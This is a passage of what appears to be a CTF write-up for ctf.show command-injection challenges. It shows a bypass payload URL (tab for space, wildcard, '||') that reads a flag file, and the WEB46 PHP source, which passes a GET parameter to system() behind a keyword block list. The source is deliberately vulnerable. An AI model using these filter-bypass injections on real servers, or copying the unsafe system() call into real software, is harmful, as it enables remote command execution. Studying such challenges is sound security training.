 ```php
http://5266b045-bb39-4219-a054-d84f6d4d907e.challenge.ctf.show/?c=more%09f*||
```

<figure><img src="../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

***

## <mark style="color:blue;background-color:orange;">（18）WEB46</mark>

```php
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:50:19
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```
